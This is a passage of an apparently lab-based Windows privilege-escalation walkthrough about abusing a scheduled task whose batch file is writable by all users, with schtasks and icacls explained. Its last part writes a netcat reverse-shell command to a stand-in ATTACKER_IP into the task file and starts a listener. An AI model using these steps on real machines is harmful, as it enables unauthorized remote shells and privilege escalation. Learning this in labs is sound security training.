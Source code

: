 Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Scheduled tasks can be listed from the command line using the `schtasks` command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:
```shell-session
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```
 
 Breakdown of the Command:
- **`schtasks`**:
    - This is the primary command used to create, delete, configure, or display scheduled tasks on a local or remote machine.
- **`/query`**:
    - This option tells `schtasks` to display or query information about tasks. When used without any additional parameters, it shows a list of all scheduled tasks.
- **`/tn vulntask`**:
    - **`/tn`** stands for "task name."
    - **`vulntask`** is the specific name of the task you want to query. This parameter restricts the output to details about the task named `vulntask`.
- **`/fo list`**:
    - **`/fo`** stands for "format."
    - **`list`** specifies the format of the output. The available formats are:
        - `TABLE`: Displays the output in a table format.
        - `LIST`: Displays the output in a list format, with each property on a separate line (this is the format chosen in your command).
        - `CSV`: Displays the output in a comma-separated values format, which is useful for exporting the data.
- **`/v`**:
    - **`/v`** stands for "verbose."
    - This option provides detailed information about the task, including settings, triggers, actions, conditions, and more.

You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use `icacls`:
```shell-session
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

Breakdown of the Command:
- **`icacls`**:
    - This is the command-line utility in Windows used to display or modify the access control lists (ACLs) for files and directories. ACLs define the permissions that users and groups have for accessing or modifying the file or directory.
- **`c:\tasks\schtask.bat`**:
    - This is the file path to the specific file or directory you want to query or modify. In this case, it's targeting a batch file named `schtask.bat` located in the `C:\tasks\` directory.

As can be seen in the result, the **BUILTIN\Users** group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, `nc64.exe` can be found on `C:\tools`. Let's change the bat file to spawn a reverse shell:
```shell-session
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

 Explanation of the Command in the Batch File:
- If `schtask.bat` is executed, it will attempt to run `nc64.exe` (Netcat) from the `c:\tools\` directory.
- The `-e cmd.exe` part tells Netcat to launch a command shell (`cmd.exe`) when a connection is made.
- The `ATTACKER_IP 4444` part tells Netcat to connect to the specified IP address (`ATTACKER_IP`) on port `4444`.

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:
```shell-session
nc -lvp 4444
